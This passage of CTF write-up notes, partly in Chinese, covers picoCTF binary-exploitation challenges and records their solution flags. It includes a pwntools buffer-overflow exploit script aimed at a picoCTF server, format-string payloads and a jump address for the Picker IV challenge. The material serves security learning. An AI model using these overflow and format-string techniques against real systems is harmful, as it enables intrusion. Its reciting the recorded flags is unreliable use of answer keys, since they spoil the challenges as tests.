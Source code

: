 `Flag`: picoCTF{addr3ss3s_ar3_3asy_b15b081e}


buffer overflow 2
--

+ `pattern_create` & `pattern_offset` ,or `patts` 找 溢出點
+ 因 `int main(int argc, char **argv)` 所以call完`win()` 需要再給`argc & argv`的數值


```python=
from pwn import remote,p32,context

# nc saturn.picoctf.net 49783
context.arch = 'i386'

r = remote('saturn.picoctf.net',50688)

r.recv()

# 0xCAFEF00D 0xcafef00d
# 0xF00DF00D 0xf00df00d
p1 = b'a'*112 +p32(0x8049296) +p32(0x8049372)+ p32(0xcafef00d) +p32(0xf00df00d)

r.send(p1)

r.interactive()
```

`REF`: https://hackmd.io/@Awwwolf/SJu6P-072
`Flag`: picoCTF{argum3nt5_4_d4yZ_59cd5643}


filtered-shellcode
--
> [online ass](https://defuse.ca/online-x86-assembler.htm#disassembly2) , [shell-storm](https://shell-storm.org/shellcode/index.html)
+  `shellcode 只能包含 2 位元組指令`


`REF`: https://ctftime.org/writeup/27464
`flag`: picoCTF{th4t_w4s_fun_bf8b48641b742e27}

Picker IV
--
![image](https://hackmd.io/_uploads/HJAiZQaWA.png)

SOL: input `4012a3`

`flag` : picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}


format string 0
--

> About `printf()` vuln [All the format strings](https://www.fabbbe.se/blog/all_the_format_strings.html )

`$man 3 printf` 手冊
### Sol:
1. `Gr%114d_Cheese`
2. `Cla%sic_Che%s%steak`
